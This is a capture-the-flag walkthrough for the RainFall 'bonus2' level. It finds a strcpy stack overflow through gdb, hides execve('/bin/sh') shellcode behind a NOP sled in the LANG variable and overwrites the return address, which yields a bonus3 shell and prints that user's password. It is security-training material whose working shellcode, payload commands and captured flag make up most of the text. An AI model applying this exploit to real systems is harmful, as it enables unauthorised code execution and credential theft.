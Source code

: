 # Walkthrough

## Solution

```
export LANG=`python -c "print('fi' + '\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`

./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 18 + '\xab\xfe\xff\xbf'")
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Explanation

### Execution

```
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 hello
bonus2@RainFall:~$ ./bonus2 hello you
Hello hello
bonus2@RainFall:~$ ./bonus2 hello you bonjour
bonus2@RainFall:~$ ./bonus2 hello bonjour
Hello hello
bonus2@RainFall:~$ ./bonus2 bon jour
Hello bon
```  
-> The program seems to take 2 args, concatenate Hello with argv[1].

### Disassembly

```
info var
0x08049988  language

info function
0x08048484  greetuser
0x08048529  main
```  

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

#### Steps

- Find overflow offset of strcpy:
--> with LANG="**en**"  
```
(gdb) run $(python -c "print '\x90' * 40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/bonus2/bonus2 0123456789012345678901234567890123456789 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5A
Hello 0123456789012345678901234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
--> no offset found

--> with LANG="**fi**"  
```
(gdb) run $(python -c "print '\x90' * 40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/bonus2/bonus2 0123456789012345678901234567890123456789 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Hyvää päivää 0123456789012345678901234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```  
--> **offset is at 18**
-> We can use LANG="fi" to overflow strcpy:

- Export our payload to the LANG env variable  
```
export LANG=`python -c "print('fi' + '\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  
- Find the LANG env variable address  
```
(gdb) break main
(gdb) run
(gdb) x/s *((char **)environ+11) (to find the LANG address)
0xbffffe9b:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f\315\200\061\333\211\330@\315\200\350\334\377\377\377/bin/sh"
```  

- Take an address with a NOP, so that it will slide into the shellcode  
```
(gdb) x/16wx 0xbffffe9b
0xbffffe9b:	0x474e414c	0x9069663d	0x90909090	0x90909090
0xbffffeab:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffebb:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffecb:	0x90909090	0x90909090	0x90909090	0x90909090
```  
--> let's take 0xbffffeab  

- **Final command**  
```
bonus2@RainFall:~$ ./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 18 + '\xab\xfe\xff\xbf'")
Hyvää päivää ��������������������������������������������������������������
$ pwd
/home/user/bonus2
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
